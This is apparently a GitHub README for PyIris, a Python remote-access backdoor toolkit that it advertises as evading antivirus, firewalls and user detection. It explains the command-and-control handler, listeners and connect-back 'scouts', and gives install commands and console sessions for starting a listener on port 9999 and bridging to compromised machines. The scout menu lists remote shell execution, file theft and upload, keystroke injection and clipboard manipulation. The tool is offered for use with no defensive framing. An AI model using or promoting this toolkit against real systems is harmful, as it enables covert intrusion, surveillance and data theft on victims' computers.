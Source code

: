 # PyIris
PyIris (the shortened name of Python-Iris), is a post exploitation reverse shell toolkit used in order to gain access onto remote 
systems stealthily. PyIris utilises multi-platform, reverse TCP payloads that can effectively evade modern antivirus, firewalls and user 
detection even after being compiled into executable files.

# Features
- Remote command execution
- File transfers
- Remote Keystroke injection
- Remote clipboard manipulation
- Mouse movement and clicking manipulation

# PyIris' Arsenal
## Handler
The handler is the command and control server of PyIris, it manages listeners and scouts. It's aim is to provide an easy to use 
interface to allow the user to communicate and command the various payloads deployed onto remote systems and the various active 
listeners.
## Listener
The main aim of the listener is to sit and wait for the payloads to connect back to the command and control server. The listener 
refers to a "server key" that each payload is outfitted with. If the payload sends the correct key to the server it is granted access, 
otherwise the connection is torn down and rejected.
## Scouts
These are the payloads that connect back to the handler. They are scripted in python and can be compiled into stealthy evasive 
executable files. Each payload has its own core function such as remote code execution, input injection, cyber reconnaissance and so on. 
These scouts can be easily deployed, each has an ip_addr and port variable that tell it where to connect back to, these are modified and 
then deployed, either as exectuables or .py files which attempt to connect back to the server.

# Getting Started
## Prerequisites
- Python 2.x
- Git
## Setup
Using git run the following commands.
```git clone https://github.com/angus-y/pyIris-backdoor```
```cd pyIris-backdoor```
```pip install -r linux_requirements.txt/windows_requirements.txt```
Pip install either the Windows or Linux requirements.txt depending on which operating system you have.
## Updating PyIris
PyIris is a project undergoing heavy development and debugging, make sure to update often by running thess commands in the PyIris
folder.
```git pull```
```pip install -r linux_requirements.txt/windows_requirements.txt```
Again, the pip install depends on your operating system.

# Basic Usage
Run these in the PyIris folder
## Running the server in Windows
```py -2 PyIris.py```
## Running the server in Linux
```python2 PyIris.py```
## Setting up the listener
Setting up a listener is simple, naviaget to the listeners handler and start a listener on a free port. Run ```show``` to list all 
active listeners. To view all commands in any of the handlers(listeners,scouts or payload) run ```help```. The scouts by default connect 
to port 9999 but this can be changed in the port variable.
```
PyIris > listeners
[+]Switching...
PyIris (Listeners) > start 9999
[+]Listener started and bound to port : 9999
PyIris (Listeners) > show

[*]Currently active listeners :

ID      Port
==      ====
1       9999
```
## Managing and interacting with Scouts
To return to the default mode, run ```back```. Then enter the scouts handler by running ```scouts```. Once a scout connects back, run 
```show``` to view all connected scouts and stats. Use ```help``` to view the full help menu.
```
PyIris (Listeners) > back

[+]Returning...
PyIris > scouts
[+]Switching...
PyIris (Scouts) > show

[*]Currently active scouts :

ID      IP              User info               Type of scout   Operating System
==      ==              =========               =============   ================
1       127.0.0.1       DELL-LAPTOP/angus       Command Shell   Windows-10-10.0.15063
2       192.168.0.100   ubuntu/angus            Input Injector  Linux-4.10.0-38-generic-x86_64-with-Ubuntu-16.04-xenial
```
To interact with a scout run ```bridge <ID of scout>``` in the scouts handler.
```
PyIris (Scouts) > bridge 1
[+]Bridged to scout of ID : 1
PyIris (Command Shell) > help

Command Shell Menu
==================

   Global Commands :
      banner                            Display a banner
      help                              Show the help menu
      quit                              Quit the console
      clear                             Clear the screen

   Connection commands :
      disconnect                        Make the scout disconnect and try to reconnect
      terminate                         Kill tbe scout process
      sleep <seconds>                   Disconnect the scout and make it sleep for some time

   Command Shell Commands :
      exec <shell command>              Executes shell command and returns output
      exec_file <file/executable>       Executes a file/executable without blocking
      toggle                            toggle whether commands are run by powershell or cmd

   File Commands :
      download <filepath>               Download file
      dump <filepath>                   Dump and view file content(supports .docx file)
      upload <filepath>                 Upload a file
      web_download <url>                Download a file through a url
```
Once an interaction with a scout has been started you can run ```help``` to view the scouts help menu.

# Built with
- [PyCharm IDE](https://www.jetbrains.com/pycharm/)

# Bugs, suggestions or inquiries?
- Create an issue
- Email me at 1010angusx@gmail.com

# Credits
- Inspired by [Powershell Empire](https://github.com/EmpireProject/Empire) and [Brain Damage](https://github.com/mehulj94/BrainDamage)

# License
Licensed under Mozilla Public License Version 2.0.
